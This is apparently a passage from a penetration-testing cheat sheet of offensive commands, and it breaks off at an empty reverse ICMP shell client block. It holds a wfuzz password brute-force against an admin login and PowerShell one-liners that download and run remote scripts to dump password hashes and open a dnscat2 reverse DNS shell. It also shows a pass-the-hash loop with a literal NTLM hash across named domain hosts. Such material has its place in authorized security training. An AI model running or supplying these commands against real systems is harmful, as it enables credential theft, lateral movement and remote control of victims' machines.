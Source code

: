 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
  
  <pre>nltest /dclist:<domain> </pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455698-d1504074-ed84-11e7-85ad-c4bb196c9d44.png)
  

  
<b> Get Hashes </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes</pre>

  ![image](https://user-images.githubusercontent.com/7115563/34455769-66cb31bc-ed86-11e7-846e-090647d8e32f.png)
  
  
<b> Check Pass The Hash with multiple servers</b>

<pre>$hosts = @("SVDC1.LAZULI.CORP","SVFILES.LAZULI.CORP","SVHOST1.LAZULI.CORP","SVHOST2.LAZULI.CORP","SVFILES2.LAZULI.CORP")

foreach ($h in $hosts){ Invoke-WMIExec -Target $h -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "hostname" -Verbose }

</pre>

![image](https://user-images.githubusercontent.com/7115563/34455798-0bdc77ec-ed87-11e7-9504-6b9ec6fc2a8d.png)

References: https://www.hacklikeapornstar.com/
  


<a name="revshells"></a><h2> Reverse Shells </h2>

<a name="dns"></a><h3> Reverse DNS Shell with dnscat powershell </h3>

<b> Server </b>

<pre>ruby dnscat2.rb -e open --no-cache tunnel.domain.com</pre>


<b> Client </b>

<pre>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1'); Start-Dnscat2 -Domain tunnel.domain.com -DNSServer 8.8.4.4 </pre>


![dns](https://user-images.githubusercontent.com/7115563/35040679-5a155bfa-fb82-11e7-98ec-ba015e3ad69c.png)

Reference: https://github.com/lukebaggett/dnscat2-powershell


<a name="icmp"></a><h3> Reverse ICMP shell </h3>

<b> Server </b>

<pre> python icmpsh_m.py [IP atacante] [IP victima] </pre>

<b> Client </b>
```